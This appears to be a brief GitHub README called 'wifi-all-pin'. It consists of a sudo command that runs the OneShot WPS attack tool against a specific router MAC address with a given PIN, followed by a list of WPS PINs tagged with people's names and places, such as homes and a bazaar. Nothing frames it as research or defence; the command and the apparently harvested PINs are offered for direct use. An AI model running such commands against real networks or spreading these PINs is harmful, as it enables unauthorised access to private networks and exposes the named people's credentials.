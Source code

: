 # wifi-all-pin

 sudo python OneShot/oneshot.py -i wlan0 -b 48:22:54:14:A0:C9 -p 49937305

jakir wifi:- 85239999

jamal wifi= 91978035

Rubrl wifi:- 21595684

jiban:- 68642419

sumaiya Home:- 21660436

sadik wifi= 70367157

SK arman bazar wifi:- 17985123
